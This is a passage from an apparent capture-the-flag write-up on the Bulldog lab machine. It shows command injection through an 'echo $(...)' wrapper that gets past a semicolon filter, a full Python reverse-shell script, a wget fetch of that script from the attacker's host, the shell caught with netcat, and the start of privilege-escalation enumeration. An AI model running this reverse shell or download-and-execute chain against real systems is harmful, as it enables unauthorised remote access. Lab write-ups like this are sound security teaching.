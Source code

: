 Back to the `shell`. After many tries, I found out that you can execute commands with echo using `echo $(COMMAND)` syntax. 

{% highlight text %}
Command : echo $(which nc)

/bin/nc
{% endhighlight %}

Unfortunately, simple reverse shell with `netcat` does not work. 

My next step was python reverse shell, but we cannot enter `;` characters into the command, application will detect it and stop us. Simple way to bypass that is to paste the reverse shell into the file on our host machine, set up a `SimpleHTTPServer` and use `wget` to get the file. 

{% highlight text %}
root@kali:~# cat reverse.py 
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.4",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
{% endhighlight %}

Now we can `wget` the file using the shell. 

{% highlight text %}
Command : echo $(wget 10.0.0.4:8000/reverse.py)

Command : ls 

bulldog
db.sqlite3
manage.py
reverse.py
{% endhighlight %}

By running it, we get that sweet unrestricted shell. 

{% highlight text %}
echo $(python reverse.py)

root@kali:~# nc -lvp 1337
listening on [any] 1337 ...
10.0.0.19: inverse host lookup failed: Unknown host
connect to [10.0.0.4] from (UNKNOWN) [10.0.0.19] 44172
/bin/sh: 0: can't access tty; job control turned off
$ whoami
django
{% endhighlight %}

Now let's find something that will allow us to escalate privilages into the `root`.

{% highlight text %}
django@bulldog:/home/django/bulldog$ cd /home
cd /home
django@bulldog:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root         root         4096 Aug 24  2017 .
drwxr-xr-x 24 root         root         4096 Aug 26  2017 ..
drwxr-xr-x  5 bulldogadmin bulldogadmin 4096 Sep 21  2017 bulldogadmin
drwxr-xr-x  5 django       django       4096 Sep 21  2017 django
django@bulldog:/home$ cd bulldogadmin
cd bulldogadmin
django@bulldog:/home/bulldogadmin$ ls -la
ls -la
total 40
drwxr-xr-x 5 bulldogadmin bulldogadmin 4096 Sep 21  2017 .
drwxr-xr-x 4 root         root         4096 Aug 24  2017 ..
-rw-r--r-- 1 bulldogadmin bulldogadmin  220 Aug 24  2017 .bash_logout
-rw-r--r-- 1 bulldogadmin bulldogadmin 3771 Aug 24  2017 .bashrc